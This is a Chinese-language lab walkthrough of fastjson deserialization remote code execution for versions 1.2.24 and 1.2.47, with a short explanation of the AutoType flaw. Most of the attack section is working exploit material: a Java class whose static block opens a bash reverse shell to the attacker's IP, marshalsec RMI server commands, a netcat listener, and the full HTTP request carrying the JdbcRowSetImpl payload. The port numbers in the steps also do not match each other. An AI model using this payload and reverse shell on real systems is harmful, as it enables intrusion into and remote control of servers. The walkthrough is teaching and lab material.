# 背景

- fastjson是阿里巴巴公司开源的一款`json解析器`,其性能优越,被广泛应用于各大厂商的java项目中,`fastjson1.2.24`版本后增加了反序列化白名单,而在`1.2.48`以前的版本中,攻击者可以利用特殊构造的json字符串绕过白名单检测,成功执行任意命令

# fastjson反序列化(1.2.24-rce)

> 1.2.24-rce

### 环境准备





- 攻击机:`192.168.2.13`
- 靶机:`192.168.2.254`

### 开始攻击

- 编辑一个恶意java类

```java
//shell.java
import java.lang.Runtime;
import java.lang.Process;
public class shell {
    static {
        try {
            //TODO:这里反弹shell的代码
            Runtime rt = Runtime.getRuntime();
            //TODO:这里需要填写自己攻击机的ip
            String[] commands = {"/bin/bash", "-c", "bash -i >& /dev/tcp/192.168.2.13/8888 0>&1"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
        }
    }
}

```

- 使用`javac`进行编译

```cmd
javac shell.java
```



- 下载工具

```bash
git clone https://github.com/mbechler/marshalsec.git
```



- 切换到克隆的文件里,使用`maven`攻击打包项目



- 打包好了会多一个`target`



- 把恶意类移动到`target`里

```bash
mv /home/kali/桌面/shell.class /home/kali/桌面/marshalsec/target
```



- 在当前目录开启一个http服务

```bash
python -m http.server 90000
```



- 开启一个`rmi`服务器

```bash
# ip:port --> 刚才起的9000端口, 9999是rmi服务器端口
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.2.13:9000/#shell" 9999
```



- 监听端口(这个端口是恶意类里写的8888端口)

```bash
nc -lvvp 8888
```



- 打开`burp`访问网页抓包,构造恶意请求

```http
POST / HTTP/1.1
Host: 192.168.2.254:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/json
Content-Length: 0

{
 		"b":{
			"@type":"com.sun.rowset.JdbcRowSetImpl",
			"dataSourceName":"rmi://192.168.2.13:9999/shell",
			"autoCommit":true
	}
}
```

- 这里需要注意,修改为`post`请求方式
- `conctent-type`修改为这个`content-type:application/json`



- 反弹成功



### 漏洞原理

- fastjson在解析`json`文件的过程中,支持使用`atuo type`来实例化一个类,并调用`set/get`方法来访问属性,fastjson默认使用`@type`指定反序列化任意类
- 攻击手法:攻击者可以构造恶意类,通过`反序列化`过程中调用`getter/setter`方法,以及目标成员变量的注入来达到传参的目的,最终形成恶意调用链
- 利用`流程`

```bash
1.首先开启http服务器,并将恶意类放在目录下
2.开启恶意的RMI服务器
3.攻击者控制url参数为上一步开启rmi服务器地址
4.恶意rmi服务器返回referencewrapper类
5.目标(jnid client)在执行lookup操作时候,在decodeObject中将referenceWrapper变成Reference类,然后远程加载并实例化我们的factory类(即远程加载我们http服务器上的恶意类),在实例化时触发静态代码片段中的恶意代码
```

****

# fastjson反序列化(1.2.47)

> 1.2.47-rce

### 环境准备



### 开始攻击

- 所有步骤跟`1.2.24`一致



- 没什么说的

****

```
	FastJson反序列化主要与AutoType功能有关,在对json字符串反序列化时,FastJson允许读取@type字段的内容,将Json数据反序列化成Java对象,并调用该类的setter方法.
	序列化后的Json仅保留了接口类型,原始类信息丢失,反序列化时无法区分原始类,导致还原错误.
	为了解决上述这个问题,FastJson引入了AutoType功能,在序列化时记录对象的原始类信息,以@type字段的方式存储,反序列化时,读取@type字段,正确还原原始类.
	漏洞原理,引入AutoType功能后的Json数据中的@type字段用于标记原始类型,但如果@type指向一个恶意类,攻击者可以利用该类执行执行恶意代码.
```

